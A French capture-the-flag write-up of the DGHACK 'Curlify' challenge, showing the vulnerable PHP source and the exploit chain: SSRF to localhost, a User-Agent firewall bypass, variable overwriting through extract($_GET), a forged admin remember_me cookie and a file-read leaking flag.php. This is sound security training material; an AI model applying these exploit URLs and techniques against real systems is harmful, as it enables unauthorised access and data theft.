








# Curlify

> Vous avez été contacté dans le cadre d'un programme de bug bounty pour auditer l'appli Curlify en preprod et valider sa robustesse avant son déploiement en Production.
>
> La DSI nous indique que les administrateurs sont très réactifs dans le traitement des tickets.



## Début du challenge

Je ne sais pas par où commencer, je regarde donc les sources:

```html
<!DOCTYPE html>
<html>

<link rel="stylesheet" href="css/bulma.min.css">
<script src="js/highlight.min.js"></script>

<section class="section container" >
    <div class="columns">
        <div class="column">
            <navbar class="navbar" role="navigation" aria-label="main navigation">
                <div class="navbar-menu">
                    <div class="navbar-start">
                        <div class="navbar-item">
                            <a href="index.php">Home</a>
                        </div>
                        <!--                <div class="navbar-item">-->
                        <!--                    <a href="dev.php">Developer panel</a>-->
                        <!--                </div>-->
                    </div>
                </div>
            </navbar>

            <div class="container">
                <h1 class="title has-text-centered">Curlify me</h1>
                <figure>
                    <form method="post" action="index.php">
                        <div class="field">
                            <p class="control has-icons-left has-icons-right">
                                <input name="url" class="input" type="text" placeholder="url">
                                <span class="icon is-small is-left"><i class="fas fa-envelope"></i></span>
                                <span class="icon is-small is-right"><i class="fas fa-check"></i></span>
                            </p>
                        </div>

                        <div class="field">
                            <p class="control">
                            <div class="has-text-centered">
                                <button class="button is-link has-text-centered">
                                    Curl it !
                                </button>
                            </div>
                            </p>
                        </div>
                    </form>
                </figure>
            </div>
                    </div>
    </div>
</section>
</html>
```

J'apprends d'une part que c'est un site en PHP, d'autre part l'existence d'une page `dev.php` grâce au commentaire.
Je regarde cette page :



Impossible d'y accéder depuis l'extérieur du réseau local.

Comme le formulaire permet d'effectuer des requêtes `curl`, on peut supposer que la requête effectuée est depuis le même serveur.

Ainsi, en espérant que le serveur ne soit pas derrière un reverse proxy, on peut avoir accès à la page `dev` en envoyant `https://localhost/dev.php/`.

Le résultat obtenu est `Not implemented yet`. Peut-être que seul le protocol http est implémenté ? On teste avec `http://localhost/dev.php/`.

On obtient un résultat !



Cela nous indique que le code du site est situé à `/536707b92`.

On peut donc y accéder, en essayant je vois que je peux y accéder directement (sans passer curlify).

En suivant les redirections, on arrive sur le code du site situé à `https://curlify.chall.malicecyber.com/536707b92/Code.zip.bak`.

Je peux donc décompresser le fichier et obtenir les sources :
```bash
wget https://curlify.chall.malicecyber.com/536707b92/Code.zip.bak -O Code.zip
unzip Code.zip
```

## Code source

On a donc accès au code source du site web.
La structure est la suivante :
```
admin_panel
|-- tasks
|   |-- .htaccess
|-- users_prefs
|   |-- en-EN.php
|   |-- flag.php
|   |-- fr-FR.php
|   |-- us-US.php
|-- create_task.php
|-- database.sql
|-- db.php
|-- firewall.php
|-- index.php
|-- prefs.php
|-- task.php
|-- TODO.txt
|-- users.php
|-- utils.php
```

Il semblerait qu'il s'agisse du code pour `/admin_panel`.

On voit également où se trouve le flag dans `users_prefs/flag.php`.

## Comment afficher le flag ?

J'ai parcouru la plupart des fichiers, et je n'ai vu qu'une seule manière d'afficher le flag : via la création de tâches.

```php
<?php
include_once "users.php";

session_start();

function handle_task_creation()
{
    if (isset($_POST) && !empty($_POST)) {

        $required_elements = array("author", "type", "assignee", "description");

        foreach ($required_elements as &$el) {
            if (!isset($_POST[$el]) || empty($_POST[$el]))
                return '<div class="notification is-danger">Missing value ' . $el . '.</div>';
        }

        $ticket_id = strval(random_int(0, 9999));
        $dt = new DateTime();
        $date = $dt->format('Y-m-d H:i:s');

        $filename = "task_$ticket_id.txt";
        $fp = fopen(__DIR__ . "/tasks/" . $filename, "w+");

        $users = new User();
        $list_username = $users->get_all_username();
        $list_type = array("incident", "bug", "vulnerability", "request");

        if (!in_array($_POST["author"], $list_username) || !in_array($_POST["type"], $list_type) || !in_array($_POST["assignee"], $list_username))
            return '<div class="notification is-danger">Invalid data</div>';
        else {
            $content = "=== Ticket N° $ticket_id ===\n";
            $content .= "Creation Date: $date\n";
            if ($_SESSION["userid"]) {
                $content .= "UserId: " . $_SESSION["userid"] . "\n";
                if ($_SESSION["user_prefs"]) $content .= "Preferences: " . $_SESSION["user_prefs"] . "\n";
            }
            $content .= "Author: " . $_POST["author"] . "\n";
            $content .= "Assignee: " . $_POST["assignee"] . "\n";
            $content .= "Description: " . $_POST["description"] . "\n";
        }

        fwrite($fp, $content);
        fclose($fp);

        return '
                <div class="notification is-success">Ticket with id ' . $ticket_id . ' created</div>
                <div class="notification is-info">Your ticket will be treated and removed in a few seconds (estimated time: ~5 seconds)</div>
            ';
    }
}
?>
```

Cette fonction crée un fichier `tasks/task_xx.txt` où `xx` est un numéro de tâche.

Si un utilisateur est connecté (`$_SESSION["user_id"]` existe), les préférences `_SESSION["user_prefs"]` sont affichées.

Comme le flag est dans le dossier des préférences, on peut sûrement l'afficher de cette manière.

Il y a donc deux objectifs :
1) se connecter et choisir ses préférences comme flag;
2) créer un ticket et le lire.

## Devenir utilisateur

Analysons maintenant `index.php` :

```php
<?php

include_once "config.php";
include_once "users.php";
include_once "utils.php";
include_once "prefs.php";

$output = '';

if ($_SERVER["REMOTE_ADDR"] !== "127.0.0.1")
    $output = '<div class="notification is-danger">Internal Access Only !</div>';
else {
    session_start();

    if ($WAF_ENABLED)
        include_once "firewall.php";

    extract($_GET);

    if (isset($source)) {
        $path = realpath("/var/www/html/admin_panel/" . $source);
        if (strpos($path, "/var/www/html/admin_panel/") === 0 && !strpos($path, "flag.php")) {
            show_source("/var/www/html/admin_panel/" . $source);
            die();
        }
    }

    $users = new User();

    if (isset($_POST["username"]) && !empty($_POST["username"])) {
        $username = $_POST["username"];
        $userinfo = $users->get_user_info_by_username($username);
        if (isset($_POST["password"]) && !empty($_POST["password"])) {
            if ($userinfo) {
                if (password_verify(($_POST["password"]), $userinfo["password"])) {
                    $_SESSION["isConnected"] = 1;
                    $_SESSION["userid"] = $userinfo["userid"];
                    $_SESSION["username"] = $userinfo["username"];
                } else {
                    $output = '<div class="notification is-danger">Login / password does not match</div>';
                }
            } else {
                $output = '<div class="notification is-danger">Invalid Username/Password provided</div>';
            }
        } elseif (isset($_COOKIE["remember_me"]) && !empty($_COOKIE["remember_me"])) {
            if ($userinfo) {
                if ($_COOKIE["remember_me"] === generate_remember_me_cookie($username)) {
                    $_SESSION["isConnected"] = 1;
                    $_SESSION["username"] = $userinfo["username"];
                    $_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
                } else
                    $output = '<div class="notification is-danger">Invalid remember_me cookie</div>';
            } else
                $output = '<div class="notification is-danger">Invalid Username provided</div>';
        } else
            $output = '<div class="notification is-danger">Access Denied</div>';
    } else
        $output = '<div class="notification is-danger">Access Denied</div>';

    if (!$output) {
        $output = '<div class="notification is-success">Welcome back <strong>' . $_SESSION["username"] . '</strong></div>';
    }

    //include "task.php";

}

?>

<!DOCTYPE html>
<html>

<link rel="stylesheet" href="../css/bulma.min.css">

<section class="section container" >
    <div class="columns">
        <div class="column">
            <navbar class="navbar" role="navigation" aria-label="main navigation">
                <div class="navbar-menu">
                    <div class="navbar-start">
                        <div class="navbar-item">
                            <a href="index.php">Home</a>
                        </div>
                        <div class="navbar-item">
                            <a href="task.php">Tasks</a>
                        </div>
                        <div class="navbar-item">
                            <a href="create-task.php">Tasks creation</a>
                        </div>
                    </div>
                </div>
            </navbar>

            <?php
            echo '<div class="container">
                        <figure>
                            '.$output.'
                        </figure>
                    </div>';
            ?>
        </div>
    </div>
</html>
```

On remarque plusieurs choses sur cette page :
- on ne peut y accéder que par le curlify étant donné qu'il y a une vérification de l'IP;
- il y a un pare-feu inclus;
- une fois ces deux vérifications passées, le code arrive sur une commande vulnérable : `extract($_GET);`.
En effet, cela permet de donner une valeur choisie à n'importe quelle variable grâce aux arguments passés dans l'URL.
- Le code dans la condition `if (isset($source))` permet ainsi d'afficher n'importe quel fichier du dossier, à condition qu'il ne contienne pas `flag.php`, puisqu'on contrôle la valeur de `$source`.
- Enfin, on peut tenter de se connecter en tant qu'utilisateur de deux manières différentes : par nom d'utilisateur et mot de passe, ou bien par cookie.
Les deux méthodes de connexion ont des effets légèrement différents qu'on analysera plus tard.

## Pare-feu

Le code du pare-feu est simple :

```php
<?php
if (!preg_match("%(^DGHACK/1\.0 \(Curlify\)$)%", $_SERVER["HTTP_USER_AGENT"]))
    die('<div class="notification is-danger">Blocked by WAF !</div>');
```

Il suffit donc d'avoir comme `User-Agent` la valeur `DGHACK/1.0 (Curlify)`.

Pour cela, j'ai configuré un nouvel appareil dans mon navigateur (Google Chrome) et effectué les requêtes depuis cet appareil virtuel.

Pour cela, dans l'inspecteur, je clique sur l'icône rouages en haut à droite (flèche rouge) :



Cela me permet d'ajouter un nouvel appareil et d'accéder à la page `admin_panel`, en appuyant sur l'icône `Appareils` (flèche bleue sur l'image ci-dessus) :



## Devenir admin

Pour devenir administrateur, je dois ou bien récupérer le mot de passe de l'administrateur, ou bien récupérer son cookie.

Comme le mot de passe est haché, on va avoir du mal à récupérer son mot de passe depuis la base de données.

Je m'oriente donc vers une récupération d'un cookie admin.

La fonction de génération de cookie est la suivante dans `utils.php`: 

```php
function generate_remember_me_cookie($user) {
    return $user.md5('$SECRET_KEY');
}
```
Une nouvelle vulnérabilité ! Ce qui est ajouté au cookie est le hash MD5 de `$SECRET_KEY` et non de sa valeur...

Cookie : `admind7a988e11680f9e151f6f46808690d5ca`.

A noter qu'on aurait également pu trouver la valeur de `$SECRET_KEY` en regardant le code source de `config.php` qui était non fourni avec l'URL `http://localhost/admin_panel/?source=config.php`.

On vérifie qu'on est bien connecté en allant à l'URL `http://localhost/admin_panel/?_POST[username]=admin&_COOKIE[remember_me]=admin7a988e11680f9e151f6f46808690d5ca`



## Sélectionner ses préférences

L'objectif est de mettre ses préférences de manière à ce que `$_SESSION["user_prefs"]` contienne le flag.

C'est la ligne suivante qui effectue cela :

```php
$_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
```

La fonction `get_prefs` étant définie dans `prefs.php` :

```php
function get_prefs($user, $prefs, $lang) {
    switch ($prefs) {
        case "fr-FR":
            include(__DIR__."/user_prefs/fr-FR.php");
            break;
        case "en-EN":
            include(__DIR__."/user_prefs/en-EN.php");
            break;
        case "us-US":
            include(__DIR__."/user_prefs/us-US.php");
            break;
        default:
            return file_get_contents(__DIR__."/user_prefs/$lang");
    }
}
```

Ainsi, si on met `flag.php` comme valeur pour `$DEFAULT_LANGUAGE` et n'importe quelle valeur différente de `fr-FR`, `en-EN` et `us-US` pour `$_SERVER["HTTP_ACCEPT_LANGUAGE"]`, on obtient le flag dans `$_SESSION["user_prefs"]`.

Notre URL de connexion devient alors :

```
http://localhost/admin_panel/?_POST[username]=admin&_COOKIE[remember_me]=admin7a988e11680f9e151f6f46808690d5ca&_SERVER[HTTP_ACCEPT_LANGUAGE]=HH&DEFAULT_LANGUAGE=flag.php&_SESSION[userid]=admin
```

On a aussi rajouté `_SESSION[userid]` pour que le contenu s'affiche dans les tickets.

## Tickets

Finalement, on peut créer les tickets à partir de `https://curlify.chall.malicecyber.com/admin_panel/task.php` avec comme contenu n'importe quelle valeur.



Les tickets sont cependant supprimés au bout de 5s...

J'aurais pu faire un script pour être sûr de l'avoir, mais finalement je peux aussi essayer d'être rapide.

J'obtiens le flag en quelques essais, en allant sur l'URL `http://localhost/admin_panel/?source=tasks/task_xx.txt`.



Flag : `DGHACK{SsRF_iNs3CuR3_4dMin_P4n3l_F0r_FuN}`